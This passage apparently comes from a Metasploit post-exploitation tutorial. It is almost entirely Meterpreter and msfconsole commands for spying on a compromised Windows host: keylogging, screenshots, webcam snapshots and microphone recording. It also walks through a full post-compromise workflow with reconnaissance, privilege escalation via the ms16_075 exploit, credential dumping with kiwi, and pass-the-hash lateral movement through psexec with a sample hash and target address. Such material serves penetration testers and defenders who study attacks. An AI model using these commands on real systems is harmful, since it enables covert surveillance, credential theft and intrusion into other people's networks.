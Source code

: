 #### Data Collection and Exfiltration

```bash
# Keylogger
meterpreter > keyscan_start
meterpreter > keyscan_dump
meterpreter > keyscan_stop

# Screenshot capture
meterpreter > screenshot

# Webcam snapshot
meterpreter > webcam_snap

# Audio recording
meterpreter > record_mic -d 30

# Email collection
meterpreter > run post/windows/gather/enum_outlook

# Browser history and bookmarks
meterpreter > run post/windows/gather/enum_chrome
```

### Example: Complete Post-Compromise Workflow

This workflow demonstrates a systematic approach to post-exploitation after gaining initial access:

1. **Reconnaissance**:
   ```
   meterpreter > run post/windows/gather/enum_logged_on_users
   meterpreter > run post/windows/gather/enum_shares
   meterpreter > run post/windows/gather/enum_applications
   ```

2. **Privilege Escalation**:
   ```
   meterpreter > run post/multi/recon/local_exploit_suggester
   msf6 > use exploit/windows/local/ms16_075_reflection_juicy
   msf6 exploit(windows/local/ms16_075_reflection_juicy) > set SESSION 1
   msf6 exploit(windows/local/ms16_075_reflection_juicy) > run
   ```

3. **Credential Harvesting**:
   ```
   meterpreter > load kiwi
   meterpreter > creds_all
   meterpreter > lsa_dump_sam
   ```

4. **Lateral Movement**:
   ```
   msf6 > use exploit/windows/smb/psexec
   msf6 exploit(windows/smb/psexec) > set SMBDomain WORKGROUP
   msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
   msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
   msf6 exploit(windows/smb/psexec) > set RHOSTS 192.168.1.11
   msf6 exploit(windows/smb/psexec) > run
   ```
